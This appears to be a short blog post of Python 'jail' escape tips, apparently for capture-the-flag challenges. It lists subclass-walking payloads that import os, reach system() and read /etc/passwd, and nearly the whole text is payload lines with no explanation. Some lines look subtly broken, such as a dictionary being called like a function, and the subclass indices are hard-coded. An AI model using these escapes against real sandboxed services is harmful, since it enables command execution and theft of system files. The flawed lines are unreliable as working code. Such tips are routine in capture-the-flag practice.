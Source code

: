 ```yaml
---
layout: post
title: pyjail tips
author: hOwDayS
---
```




<h1>발견할 때 마다 추가 예정</h1>

<h3>python2</h3>

sys.stderr.\_\_class\_\_(file_path)

- sys.stderr.\_\_class\_\_('/etc/passwd')



<h3>python3</h3>



__import module__

''.\_\_doc\_\_.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()[69].load_module(module_name)

- ''.\_\_doc\_\_.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()[69].load_module('os')
- <class '_frozen_importlib.BuiltinImporter'>



__run os__

''.\_\_doc\_\_.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()[117].\_\_init\_\_.\_\_globals\_\_

- ''.\_\_doc\_\_.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()[117].\_\_init\_\_.\_\_globals\_\_('system')
- <class 'os._wrap_close'>



__run from sys import modules __

''.\_\_doc\_\_.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()[117].\_\_init\_\_.\_\_globals\_\_['sys'].modules[module_name]

- ''.\_\_doc\_\_.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()[117].\_\_init\_\_.\_\_globals\_\_['sys'].modules['os']
- <class 'os._wrap_close'>



__read file__

''.\_\_doc\_\_.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()[79]\('hOwDayS','hOwDayS'\).get_data(file_path)

- ''.\_\_doc\_\_.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()[79]\('hOwDayS','hOwDayS'\).get_data('/etc/passwd')
- <class '_frozen_importlib_external.FileLoader'>



